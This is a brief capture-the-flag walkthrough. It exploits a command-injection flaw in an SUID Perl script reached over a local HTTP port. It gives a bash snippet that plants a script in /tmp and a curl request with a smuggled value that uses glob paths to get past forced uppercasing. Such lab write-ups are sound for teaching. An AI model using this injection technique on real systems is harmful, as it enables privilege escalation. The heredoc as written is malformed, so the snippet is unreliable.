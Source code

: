 # pwn

the home for this user contains an suid perl script
this script takes user input and does the following:
- substitute all lowercase letters for uppercase letters
- finds the first space and removes everything after it

it then runs this modified input in the following command:

`egrep "^$xx" /tmp/xd 2>&1`

where `$xx` is the input

we use `/*/` to access a directory where we have permissions, and add a script that runs getflag, and in full uppercase letters to not be affected by the string modification
we then use curl to run our script:

```bash
cat <<EOF
#!/bin/bash
getflag >> /tmp/ptdr
EOF > /tmp/WOW

chmod +x /tmp/WOW

curl localhost:4646 -G --data-urlencode 'x=X";/*/WOW;["'

cat /tmp/ptdr
```

giving us our flag, we can now login as `level13`